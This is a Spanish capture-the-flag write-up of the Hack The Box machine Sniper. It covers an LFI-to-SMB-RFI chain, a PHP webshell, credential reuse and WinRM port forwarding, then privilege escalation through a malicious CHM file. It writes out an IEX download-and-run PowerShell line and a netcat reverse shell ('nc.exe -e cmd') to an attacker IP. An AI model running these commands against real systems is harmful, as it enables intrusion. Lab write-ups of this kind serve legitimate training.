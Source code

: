 ```yaml
---
layout: single
title: HTB-Sniper
excerpt: "WriteUp con metodología de la máquina Sniper."
date: 2021-12-29
classes: wide
header:
  icon: /assets/images/hackthebox.webp
  teaser_home_page: true
  teaser: /assets/images/WriteUps/Sniper.png
categories:
  - WriteUps
tags:
  - HTB

---
```



<center><img src='/assets/images/WriteUps/Sniper.png'></center>

IP -> 10.10.10.151

# Reconocimiento
## Nmap
Utilizamos [nmap](/Nmap/) y obtenemos los siguientes resultados.

[Sniper Nmap Result](/assets/files/WriteUps/Sniper.txt)

## Crackmapexec
Usamos [Crackmapexec](/Crackmapexec/) para enumerar información del [Active Directory](/Active-Directory/) y añadimos el dominio al /etc/hosts
> OS: Windows 10
> Dominio: Sniper
> Signing: False
> SMBv1: False

## smbclient y smbhost
Listamos servicios mediante un [null session](/SMB/
Pero necesitamos credenciales.

## http
En la misma página, encontramos los directorios:

> /blog/index.php -> Podemos utilizar distintos idiomas. -> Cada idioma tiene un archivo asociado. 
> /user/login.php -> Panel de inicio de sesión -> Probamos credenciales por defecto


- Probamos un path traversal, en el parámetro lang.

> Tenemos LFI

- Probamos a convertirlo en un remote file inclusion.

Pero no funciona

- Probamos a cargar un archivo smb para tratar de crackear el hash.

> Es vulnerable a RFI por [SMB](/SMB/). Pero no vemos ningún hash.

- Tenemos que crear un recurso compartido con smbd linux.

```bash
service smbd start
net usershare add smbFolder $(pwd) '' 'Everyone:F' 'guest_ok=y'
```

- Creamos un archivo txt a modo de prueba

Triggeamos el RFI y funciona.

- Cargamos una webShell por php

> webShell

Nos enviamos una reverse shell cmd con **nc.exe**.

# User Pivoting (Chris)

## OS
```powershell
whoami /priv
```

> SeImpersonatePrivilege -> Podríamos utilizar [[Juicy Potato]] pero vamos a explotar la máquina de la forma intencionada.

```powershell
cd C:\inetpub\wwwroot
dir
cd user
dir
net user
net user Chris
```

> db.php -> Credentials
> Chris está en el "Remote Management Users" -> [winrm](/winrm/)

Probamos las credenciales para el usuario "Chris". Son válidas. Pero no tenemos PWNED
El [winrm](/winrm/) no está expuesto hacia fuera, hacemos port forwarding con [Chisel](/Chisel/) del puerto 5985.

Nos conectamos con [[winrm](/winrm/) a localhost con las credenciales de "Chris"
[ ! ] AppLockerBypass puede ser necesario.


# PrivEsc
```powershell
type C:\Users\Chris\desktop\user.txt
whoami /priv
cd C:\
dir
cd Docs
dir
type note.txt
cd C:\Users\Chris
dir
cd Downloads
dir
```

> user.txt

> note.txt -> En la nota vemos que tenemos que dejar la documentación de una nueva app en la carpeta C:\Docs
> instructions.chm -> Este tipo de archivos son archivos de ayuda

Sospechamos que el tipo de archivo que tenemos que crear es un .chm
Buscamos por "create malicious chm file". Para crearlo necesitamos hacerlo en una máquina windows de atacante.

- Descargamos HTML Help Workshop porque la herramienta lo requiere.
- Utilizamos la herramienta de "nishang" [Out-CHM.ps1](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1)
- Nos sincronizamos al recurso y creamos el archivo malicioso.

```powershell
IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Client/Out-CHM.ps1')
Out-CHM "C:\Users\Chris\Desktop\nc.exe -e cmd 10.10.14.13 443" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
```

- Movemos el archivo malicioso a la máquina víctima a la ruta C:\Docs y nos ponemos en escucha con **netcat**.

> root.txt


---

Escrito el 29-12-2021 a las 01:41 am por creep33.
